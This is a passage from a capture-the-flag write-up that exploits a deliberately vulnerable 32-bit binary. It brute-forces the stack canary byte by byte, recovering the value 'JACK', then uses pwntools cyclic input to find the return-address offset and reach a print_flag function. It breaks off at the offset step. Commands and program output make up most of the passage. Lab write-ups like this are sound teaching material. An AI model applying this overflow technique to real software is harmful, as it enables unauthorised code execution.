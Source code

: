 ```bash
 81f:   75 1c                   jne    83d <display_flag+0x50>
```
The address is 0x000007ed.
At this point we have enough information to create a canary brute forcing script.

### 4. Create the canary bypass
Basically I create a script to repeatedly send different bytes at the canary until I find a byte in which the program allows the "Ok, where's the flag?" message to be printed, which means the canary didn't change, meaning we found a valid byte. Once I have recovered 4 bytes of the canary, I can continue to overwrite EIP to get the flag (see solve.py).
```bash
kali@kali:~/Desktop/pctf/canary$ python solve.py 
[*] '/home/kali/Desktop/pctf/canary/vuln'
    Arch:     i386-32-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] Trying byte \x00now (input length: 33)
[+] Starting local process '/home/kali/Desktop/pctf/canary/vuln': pid 11935
[*] Sending: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x00[*] *** Stack Smashing Detected *** : Canary Value Corrupt!
[*] Process '/home/kali/Desktop/pctf/canary/vuln' stopped with exit code 255 (pid 11935)
[*] Trying byte  now (input length: 33)
[+] Starting local process '/home/kali/Desktop/pctf/canary/vuln': pid 11937
[*] Sending: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
[*] *** Stack Smashing Detected *** : Canary Value Corrupt!
[*] Process '/home/kali/Desktop/pctf/canary/vuln' stopped with exit code 255 (pid 11937)
[*] Trying byte  now (input length: 33)
[+] Starting local process '/home/kali/Desktop/pctf/canary/vuln': pid 11939
[*] Sending: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
[*] *** Stack Smashing Detected *** : Canary Value Corrupt!
[*] Process '/home/kali/Desktop/pctf/canary/vuln' stopped with exit code 255 (pid 11939)
...
[+] Starting local process '/home/kali/Desktop/pctf/canary/vuln': pid 11918
[*] Sending: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAJACJ
[*] *** Stack Smashing Detected *** : Canary Value Corrupt!
[*] Process '/home/kali/Desktop/pctf/canary/vuln' stopped with exit code 255 (pid 11918)
[*] Trying byte K now (input length: 36)
[+] Starting local process '/home/kali/Desktop/pctf/canary/vuln': pid 11920
[*] Sending: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAJACK
[*] Ok... Now Where's the Flag?
[*] Process '/home/kali/Desktop/pctf/canary/vuln' stopped with exit code 0 (pid 11920)
[*] Found canary byte: K
[*] Canary value: JACK
```

### 5. Get to the print_flag function
Now I have bruteforced the canary I'm just going to attach to gdb and write through EIP to cause a segfault, grab the EIP offset and then write in the print_flag function location. Once that's done, the exploit is complete. So firstly find where EIP is when the function completes:
```bash
kali@kali:~/Desktop/pctf/canary$ sudo dmesg -C
kali@kali:~/Desktop/pctf/canary$ python -c "from pwn import cyclic; print(b'A' * 32 + b'JACK' + cyclic(20))"
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAJACKaaaabaaacaaadaaaeaaa
kali@kali:~/Desktop/pctf/canary$ ./vuln
Please enter the length of the entry:
> 56
Input> AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAJACKaaaabaaacaaadaaaeaaa
Ok... Now Where's the Flag?
Segmentation fault
kali@kali:~/Desktop/pctf/canary$ sudo dmesg -t
```